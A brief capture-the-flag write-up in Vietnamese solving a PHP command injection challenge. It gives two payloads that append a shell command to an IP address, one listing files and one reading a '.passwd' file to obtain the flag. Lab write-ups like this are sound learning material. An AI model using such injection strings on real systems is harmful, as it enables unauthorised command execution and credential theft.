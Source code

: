 # PHP - Command injection

## Solution

- Sử dụng lệnh để xem các tệp: `127.0.0.1; ls -la`

- Có thể sử dụng lệnh này: `127.0.0.1; cat .passwd` để lấy flag.